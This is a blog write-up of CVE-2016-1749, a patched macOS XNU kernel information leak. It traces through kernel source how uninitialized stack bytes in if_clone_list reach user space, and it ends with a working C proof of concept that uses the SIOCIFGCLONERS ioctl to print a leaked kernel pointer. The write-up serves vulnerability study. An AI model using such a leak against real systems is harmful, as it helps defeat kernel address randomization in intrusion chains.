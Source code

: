 ```yaml
---
layout:    post
title:     CVE-2016-1749 macOS Kernel Information Leak
author:    wooy0ung
tags:      macos
category:  exploit
---
```



>[Analysis Environment]  
>virtual machine: OS X 10.11.3 EI Capitan
>affected system: OS X before 10.11.3(patched in 10.11.4)  
>description: We can leak the kernel pointer by copying the 8 byte of the uninitialized kernel stack to the user space, while we can calculate the kernel slice by substraction the base adderess from leaked kernel pointer.  
<!-- more -->


## 0x001 Analysis

Let's check if_clone_list method in the "/bsd/net/if.c" file
```
/*
 * Provide list of interface cloners to userspace.
 */
static int
if_clone_list(int count, int *ret_total, user_addr_t dst)
{
  char outbuf[IFNAMSIZ];
  struct if_clone *ifc;
  int error = 0;

  *ret_total = if_cloners_count;
  if (dst == USER_ADDR_NULL) {
    /* Just asking how many there are. */
    return (0);
  }

  if (count < 0)
    return (EINVAL);

  count = (if_cloners_count < count) ? if_cloners_count : count;

  for (ifc = LIST_FIRST(&if_cloners); ifc != NULL && count != 0;
       ifc = LIST_NEXT(ifc, ifc_list), count--, dst += IFNAMSIZ) {
    strlcpy(outbuf, ifc->ifc_name, IFNAMSIZ);
    error = copyout(outbuf, dst, IFNAMSIZ);
    if (error)
      break;
  }

  return (error);
}
```

The value of IFNAMSIZ is 16.
![](/assets/img/xnu/2018-08-10-cve-2016-1749-macos-kernel-information-leak/0x001.png)

When the length of the ifc_name is less than the length of the outbuf, some bytes are not initialized at the end of the outbuf after being copied to out buf.

The first interface is called "bridge", so ifc_name is 6 characters, leaving 9 bytes of uninitialized bytes in outbuf.

Then it copies outbuf to dst which is user space as much as "IFNAMSIZ". Therefore, the kernel pointer will be copied to user space and leaked.

Look at this, we may find the method that wa originally called.
```
soo_ioctl -> soioctl -> ifioctllocked -> ifioctl -> ifioctl_ifclone -> if_clone_list
```

soo_ioctl itself is used by the socketops structure.
```
const struct fileops socketops = {
  DTYPE_SOCKET,
  soo_read,
  soo_write,
  soo_ioctl,
  soo_select,
  soo_close,
  soo_kqfilter,
  soo_drain
};
```

Since if_clone is called from within ifioctl_ifclone, cmd must be SIOCIFGCLONERS. So we can call it in this way. ioctl(sockfd,SIOCIFGCLONERS,&ifcr)
```
int
ifioctl(struct socket *so, u_long cmd, caddr_t data, struct proc *p)
{
  char ifname[IFNAMSIZ + 1];
  struct ifnet *ifp = NULL;
  struct ifstat *ifs = NULL;
  int error = 0;

  bzero(ifname, sizeof (ifname));

  /*
   * ioctls which don't require ifp, or ifreq ioctls
   */
  switch (cmd) {
  case OSIOCGIFCONF32:      /* struct ifconf32 */
  case SIOCGIFCONF32:     /* struct ifconf32 */
  case SIOCGIFCONF64:     /* struct ifconf64 */
  case OSIOCGIFCONF64:      /* struct ifconf64 */
    error = ifioctl_ifconf(cmd, data);
    goto done;

  case SIOCIFGCLONERS32:      /* struct if_clonereq32 */
  case SIOCIFGCLONERS64:      /* struct if_clonereq64 */
    error = ifioctl_ifclone(cmd, data);
    goto done;

  case SIOCGIFAGENTDATA32:    /* struct netagent_req32 */
  case SIOCGIFAGENTDATA64:    /* struct netagent_req64 */
    error = netagent_ioctl(cmd, data);
    goto done;
......
```

If you look at the ifioctl_ifclone method, you can see that it uses the if_clonereq structure as the if_clone_list argument.
```
static __attribute__((noinline)) int
ifioctl_ifclone(u_long cmd, caddr_t data)
{
  int error = 0;

  switch (cmd) {
  case SIOCIFGCLONERS32: {    /* struct if_clonereq32 */
    struct if_clonereq32 ifcr;
    bcopy(data, &ifcr, sizeof (ifcr));
    error = if_clone_list(ifcr.ifcr_count, &ifcr.ifcr_total,
        CAST_USER_ADDR_T(ifcr.ifcru_buffer));
    bcopy(&ifcr, data, sizeof (ifcr));
    break;
  }

  case SIOCIFGCLONERS64: {    /* struct if_clonereq64 */
    struct if_clonereq64 ifcr;
    bcopy(data, &ifcr, sizeof (ifcr));
    error = if_clone_list(ifcr.ifcr_count, &ifcr.ifcr_total,
        ifcr.ifcru_buffer);
    bcopy(&ifcr, data, sizeof (ifcr));
    break;
  }

  default:
    VERIFY(0);
    /* NOTREACHED */
  }

  return (error);
}
```


## 0x002 Finish it!

Finally, if you run the flowing source, you will see an information leak.
```
#include <net/if.h>
#include <stdio.h>
#include <sys/ioctl.h>

char buffer[IFNAMSIZ];

struct if_clonereq ifcr = {
        .ifcr_count = 1,
        .ifcr_buffer = buffer
};

int main(){
        int sockfd = socket(AF_INET,SOCK_STREAM,0);
        int err = ioctl(sockfd,SIOCIFGCLONERS,&ifcr);
        printf("0x%016llx\n",*(uint64_t *)(buffer + 8));
}
```
![](/assets/img/xnu/2018-08-10-cve-2016-1749-macos-kernel-information-leak/0x002.png)